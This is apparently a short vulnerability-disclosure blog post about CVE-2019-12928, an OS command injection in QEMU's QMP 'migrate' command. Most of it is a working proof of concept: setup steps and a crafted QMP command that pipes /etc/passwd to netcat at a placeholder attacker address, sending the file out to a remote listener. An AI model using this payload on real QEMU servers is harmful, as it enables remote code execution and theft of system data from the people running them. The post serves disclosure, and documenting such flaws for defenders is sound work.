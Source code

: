 ```yaml
---
layout: post
title: "[CVE-2019-12928] QEMU Machine Protocol Migrate Remote Command Execution"
date: 2019-06-05
categories:
    - blog
keywords: "qemu, qmp, command execution"
---
```


The QMP `migrate` command in QEMU version 4.0.0 and earlier is vulnerable to OS command injection, which allows the remote attacker to achieve code execution, denial of service, or information disclosure by sending a crafted QMP command to the listening server.

1st, execute the QEMU with `-qmp tcp:<ip_address>:1234,server,nowait`<br>
2nd, open another console and setup a listener to port 9999<br>
3rd, connect to the target and enter the following commands:<br>

```
{ "execute": "qmp_capabilities" }
{"return": {}}
{ "execute": "migrate", "arguments": { "uri": "exec:cat /etc/passwd | nc <attacker_ip> 9999" } }
{"return": {}}
```
